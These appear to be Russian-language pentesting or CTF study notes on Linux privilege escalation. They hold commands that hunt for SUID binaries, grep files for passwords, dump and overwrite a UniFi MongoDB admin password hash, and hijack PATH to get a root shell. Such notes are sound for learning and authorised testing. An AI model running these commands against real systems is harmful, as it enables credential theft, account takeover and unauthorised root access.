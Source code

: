 ### \[lin/win]PEAS и аналоги
[[Утилиты]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```
	find / -user root -perm /4000 2> /dev/null
	
	или 
	
	find / -type f -perm -u=s 2> /dev/null
	
	или 
	
	find / -perm -40 2> /dev/null
	
	и снова использовать ресурс https://gtfobins.github.io/
	```
3. Происматривать файлы в поисках пароля: 
	``` 
	cat * | grep -i passw*
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то bush команду. 

Дальше нужно создать файл этой bush команды с содержимым:
``` 
/bin/sh
```
и добавить её в начало переменной PATH:
```
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

## Windows

См. раздел "сетевые атаки"


